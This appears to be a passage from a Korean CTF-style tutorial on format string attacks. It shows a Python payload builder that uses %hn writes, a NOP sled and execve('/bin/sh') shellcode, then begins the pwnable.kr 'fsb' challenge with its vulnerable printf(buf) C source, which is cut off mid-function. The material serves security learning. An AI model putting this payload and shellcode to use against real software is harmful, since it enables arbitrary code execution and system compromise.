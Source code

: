 ```python
stage_1 += "%24562x" 		# count = 134545408 (0x08050000) ; For 0x0000
stage_1 += "%8x" * 17 		# count = 134545544 (0x08050088) ; length = 136
stage_1 += "%1916x" 		# count = 134547460 (0x08050804) ; For 0x0804
stage_1 += "%hn"
stage_1 += "%8x" * 15 		# count = 134547580 (0x0805087c) ; length = 120
stage_1 += "%39460x" 		# count = 134587040 (0x0805a2a0) ; For 0xa2a0
stage_1 += "%hn"

SHELLCODE = ""
SHELLCODE += "\x90" * (1024 - len(stage_0+stage_1) - 25 - 1) # 25 = length of shellcode
SHELLCODE += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" 					# execve("/bin/sh" , {"sh"} , 0) shellcode

payload = stage_0 + stage_1 + SHELLCODE
print payload 
```

Payload로는 Stage0 , Stage1 , NOP + SHELLCODE 이렇게 크게 세 부분으로 나누어진다. NOP + SHELLCODE가 최종적으로 실행시킬 SHELLCODE부분이며, 위에서 설명했듯이 stage0은 stage1에서 사용할 인자를 구성하는 부분이고 stage1은 실제로 원하는 주소에 데이터를 덮어쓰는 부분이다. 

## 4. Pwnable.kr fsb 문제

### 4-1. 문제 확인

<img src="https://user-images.githubusercontent.com/40850499/43204902-1833a3de-905d-11e8-99ed-7c648232d104.png" width="50%" align="center"></img>

먼저 확인해보니 NX가 걸려있고 partial  RELRO로 되어있고 까나리 없고 PIE 없다. 코드는 다음과 같다.

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
```